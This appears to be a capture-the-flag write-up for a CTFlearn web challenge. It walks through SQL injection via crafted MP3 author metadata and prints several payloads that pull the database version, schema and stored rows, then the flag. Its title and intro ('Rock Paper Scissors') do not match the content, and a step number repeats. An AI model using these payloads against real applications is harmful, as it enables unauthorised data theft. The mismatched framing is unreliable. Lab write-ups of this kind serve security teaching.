



## Rock Paper Scissors
The main idea of finding the flag is recognizing a pattern to pwn.

#### Step-1:
After I visited http://web.ctflearn.com/audioedit/, I got this.



#### Step-2:
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.

We figured the insertion statement looked something like this:

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);
```

In order to do an SQL-injection we have to create a special author and title field. I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data. In order to inject and maintain a valid INSERTION statement you can create a `mp3` with the following meta data:

```sql
title  = "" (leer)
author = a', (SELECT @@version))-- -b
```

which creates the following statement

```sql
INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);
```

The `a` in the beginning and the `b` in the end were necessary because the first and last character were truncated.

This gave us the database version: `5.5.49-0ubuntu0.14.04.1`

#### Step-3:
Next we wanted to know the database name:

```sql
author = a', (SELECT database()))-- -b:
audioedit
```

And of course the column names:

```sql
author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
with x in range(0,3):
id
file
author
title
```

So finally we wanted see whats in there:

```sql
author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
```

... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time. Thanks to SQLs.

```sql
author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
ABCTF
author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
flag
author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
supersecretflagf1le.mp3
```

#### Step-4:
Finally the exploited URL: https://web.ctflearn.com/audioedit/edit.php?file=supersecretflagf1le.mp3





#### Step-3:
Finally, the flag becomes: 
`ABCTF{m3t4_inj3cti00n}`
